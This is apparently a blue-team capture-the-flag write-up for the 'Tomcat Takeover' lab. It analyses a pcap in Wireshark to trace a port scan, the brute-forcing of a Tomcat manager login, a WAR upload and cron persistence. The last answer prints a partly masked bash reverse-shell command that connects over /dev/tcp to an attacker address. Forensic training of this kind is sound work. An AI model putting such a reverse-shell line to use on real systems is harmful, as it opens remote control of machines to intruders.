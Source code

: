 # TomcatTakeover

# Details

https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/

Instructions:

Uncompress the lab (pass: cyberdefenders.org)
Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:

Wireshark
NetworkMiner

# Solution

## Question 1
**Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?**

The question is asking us to find the IP address that is performing a port scannin operation on our network. To find this we can go ahead and go to Statistics > Endpoints > TCP to get a better idea as to which IP address is making the most requests to different port numbers.

![Endpoint](https://github.com/user-attachments/assets/cf53e731-e8e8-40a3-a6e0-e9d21122f006)


Looking at the results we can see that the IP 1*.0.0.*** has made requests to various port numbers most of them being above the common ports range which warrants suspicious behaviour.

### Answer
1*.0.0.***

## Question 2
**Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?**

For this we can simply go to a site like abuseipdp.com and check IP information.

![AbuseIPDP](https://github.com/user-attachments/assets/62852fc9-eb22-469a-9dcd-8b852f91fd1c)


### Answer
G********

## Question 3
**From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?**

For this we can start of by filtering for HTTP packets, since the question is asking to find the port relating to a web server which communicates in HTTP.

![http](https://github.com/user-attachments/assets/d5d8dfe8-ce82-47fe-805d-32adb8b0aefc)

This gives us a bunch of packets. Now let's try narrowing it down even further. We can go to Statistics > Conversations to get a clear look into what ports are involved in the HTTP packets.


![PORT](https://github.com/user-attachments/assets/6c987d6d-4a1e-42e6-949c-ee5a02e2e3e5)


Looking at the results it seems there is only one port involved in HTTP which we can safely conclude that this is the correct answer. Should there have been more ports than one which is unlikely we could have gone on to filter for the ports that involve an admin page.

### Answer
8***

## Question 4
**Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?**

Looking at the HTTP packets we can see a bunch of requests that are made in a short period of time indicating an automation. This is typical behaviour for directory busting software.

![dirbust_sus](https://github.com/user-attachments/assets/26c67847-8f04-42b5-9170-d817032451c1)


Looking at one of these packets reveals to us the tool used by the attacker

![tool](https://github.com/user-attachments/assets/bfeedc2d-44df-471d-9992-f36ceb374f83)

### Answer
go******

## Question 5
**Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?**

To find this we can use the filter 'http.request or http.response.code != 404' this filter will filter for HTTP Requests and Responses for the pages that exist within the server. This will allow us to more efficiently sift through the data.

After sifting through the data we stumble across the admin panel

![admin](https://github.com/user-attachments/assets/2be6ad5f-beab-4b45-b809-115f6c964b5b)

We can see a request for /m*****/h*** which provides a response of Unauthorized telling us that that page is only accessible to admins.

### Answer
/m******

## Question 6
**Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?**

To find this we can look through all the requests to /manager/html until we find a response OK to that request.


![OK](https://github.com/user-attachments/assets/30243610-fff4-432f-b637-8aea2167e464)

We can see that after a series of unsuccessful attempts the attacker gets an OK response from the server indicating that the credentials worked. To look at what credentials they used we can check the Authorization header under the HTTP data in the Packet

![credentials](https://github.com/user-attachments/assets/3c94631a-aca0-48aa-9740-6c0fcf13deda)


### Answer
a****:t*****

## Question 7
**Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?**

To find this we can filter for POST packets. This can be done using the filter 'http.request.method == POST'.

![POST](https://github.com/user-attachments/assets/903d536a-a692-4d24-80a1-ddd090d2e557)

We can see that there is only 1 POST packet, looking into the packet information we can see what file was uploaded.

![file](https://github.com/user-attachments/assets/bfd8e059-5089-41af-bd71-fbdca50f4c5e)


### Answer
J*****.**r

## Question 8
**Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?**

To find this we can look for a request to the file that was uploaded, since the server needs to run the file for the commands to be executed, and then look at subsequent connections between the attacker and the server to find any commands run by the attacker

![search](https://github.com/user-attachments/assets/2144f96b-fb0c-43b1-ba90-0dd75e56f202)

We can see that the attacker sent a request to GET /JXQOZY/ indicating that the attacker tried to run the malicious file that we uncovered in the previous question. We can see a few packets later that the server sends an OK response indicating that the malicious file was opened. Looking at the next few packets we stumble upon a packet which has 'whoami' as part of it's data. whoami is a common command which is used by attackers to find out what account they are currently using. Following this TCP Stream we can uncover all the other commands run by the attacker.

![persistence](https://github.com/user-attachments/assets/f76ca117-79af-4068-96a6-d712599afc87)

We can see that there is a command for cron, which is a task scheduler for Unix like operating systems, which is commonly used for persistence by attacker.

### Answer
/b**/b*** -* '**** -* >& /***/tcp/14.0.0.**0/**3 0>&1'
